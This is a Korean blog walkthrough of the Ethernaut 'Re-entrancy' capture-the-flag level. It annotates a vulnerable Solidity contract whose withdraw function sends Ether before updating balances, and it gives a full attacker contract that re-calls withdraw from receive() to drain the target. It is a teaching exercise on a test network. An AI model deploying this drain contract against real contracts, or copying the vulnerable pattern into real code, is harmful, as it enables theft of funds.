

# 👋 Re-entrancy
__Difficulty 6/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- Reentrance contract의 모든 Ether 훔쳐오기

- - -

## 코드 분석
분석은 주석에!

```solidity
contract Reentrance {

    using SafeMath for uint256;
    mapping(address => uint) public balances;

    // _to에게 기부할 수 있는 function 
    function donate(address _to) public payable {
        // 기부 받는 사람의 balance를 msg.value만큼 늘린다.
        balances[_to] = balances[_to].add(msg.value);
    }

    // _who의 balance를 return 한다.
    function balanceOf(address _who) public view returns (uint balance) {
        return balances[_who];
    }

    // 자신이 가지고 있는 balance에서 인출(withdraw)할 수 있다.
    function withdraw(uint _amount) public {
        // msg.sender의 balance가 인출하려는 액수와 같거나 큰지 체크
        if(balances[msg.sender] >= _amount) {
            // msg.sender에게 _amount의 액수만큼 Ether를 보낸다.
            (bool result,) = msg.sender.call{value:_amount}("");
            if(result) {
                _amount;
            }
            // balance에서 인출한 만 balance를 줄인다.
            balances[msg.sender] -= _amount;
        }
    }
    
    receive() external payable {}
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 Reentrance는 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.

## 풀이
이 문제에서 우리의 목표는 Reentrance contract에서 모든 Ether를 훔쳐오는 것이다.

위 코드는 취약점 시리즈 1에서 공부했었던 [Reentrancy Attack](https://holyhansss.github.io/vulnerability/reentrancy_attack/reentrancy_attack/)와 비슷한 코드를 가지고 있다. 

이 문제에 들어가기 전에 우리가 알아야 할 것은 함수를 실행하는 도중에 다시 함수가 불릴 수 있다는 것이다. Ethernaut에세 주는 힌트에서 알 수 있듯이 다른 contract를 통해 이를 가능케 할 수 있다.

AttackReentrance contract를 한번 보며 더 이해해보자!

우선 console 창에서 여러가지 정보를 확인해 보자
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// contract가 가지고 있는 ether의 양 확인
await getBalance(instance) 
```


```solidity
contract AttackReentrance {

    Reentrance reentrance;
    // value라는 변수를 통해 donate하는 액수와 withdraw하는 액수를 같게 만들었다.
    uint256 value;
    
    // constructor
    constructor(address payable _reentrance) public {
        // attack 할 contract 불러오기
        reentrance = Reentrance(_reentrance);
        // value를 0.001 ether로 설정: Reentrance contract의 balance가 0.001 ehter 였기 때문에 이렇게 설정했다.
        value = 0.001 ether;
    }

    // Reentrance contract의 donate 함수를 실행시키는 함수
    function attackDonate() public payable {
        // msg.value가 value 값과 같은지 확인
        require(value == msg.value);
        // Reentrance contract의 donate 함수 실행
        reentrance.donate{value: msg.value}(address(this));
    }

    // Reentrance의 withdraw 함수를 실행
    function attackWithdraw() public payable {
        // 자신에게 value 만큼 donate했기 때문에 value만큼 인출한다.
        reentrance.withdraw(value);
    }

    // receive function
    receive() external payable {
        // 돈을 인출하자마자 다시 withdraw를 call한다.
        // 실질적인 공격 코드!
        reentrance.withdraw(value);
    }
}
```
위 코드를 Remix IDE에서 위 코드를 Rinkeby Network에 배포한다. 그럼 아래와 같은 버튼들이 나올 것이다. 


위 버튼들 중에서 attackDonate 버튼을 눌러 donate하고 attackWithdraw를 통해 withdraw 하면 공격이 끝난다. 

이후 
```javascript
// contract가 가지고 있는 ether의 양 0이 된 것을 확인 할 수 있다.
await getBalance(instance) 

// attackContract 가 가지고 있는 ether의 양이 늘어날 것을 확인할 수 있다
await getBalance("address of attackContract")
```


이후 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

- - -

## 마무리
Reentrancy attack은 굉장히 유명한 공격 중 하나이다. 내가 지금까지 다뤘던 것은 Reentrancy on a Single Function 이었다. The DAO 사태는 Cross-function Reentrancy였던만큼 Cross-function도 꼭 한번 다뤄야겠다고 느낀다. 나머지 시리즈도 화이팅!

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- Re-entrancy 취약점: https://holyhansss.github.io/vulnerability/reentrancy_attack/reentrancy_attack/

```toc

```